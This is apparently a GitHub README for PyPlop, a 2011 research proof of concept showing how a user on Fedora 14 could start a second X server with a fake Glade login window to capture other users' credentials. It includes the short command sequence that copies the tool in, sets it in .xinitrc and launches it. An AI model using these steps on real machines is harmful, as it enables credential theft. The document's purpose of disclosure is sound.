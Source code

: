 # PyPlop
This project is part of whitepaper (2011) that exposes a kind of malware used to obtain confidential information by impersonating accreditation windows. The feasibility of this technique is validated with a practical case, which exploits a security flaw in a Linux distribution.

Fedora 14 (Laughlin) was vulnerable to an attack where a normal user could login into a shared machine and start a X server which replaced the current one on the screen. The user could then configure a fake login window so the user using the computer would enter his credentials.

```
ssh mallory@alpha
mallory@alpha’s password:
mallory@alpha:~$ scp -r test@hostX:pyplop/ .pyplop
mallory@alpha:~$ echo "cd .pyplop/ && ./pyplop.py" > ~/.xinitrc
mallory@alpha:~$ startx -- :1
```

The next screenshots correspond to the original login window followed by a fake one build using Glade. It is not perfect, but enough to fake a naive user into entering his credentials.

![Original Login Window](/original_login_window.png)
![Fake Login Window](/fake_login_window.png)
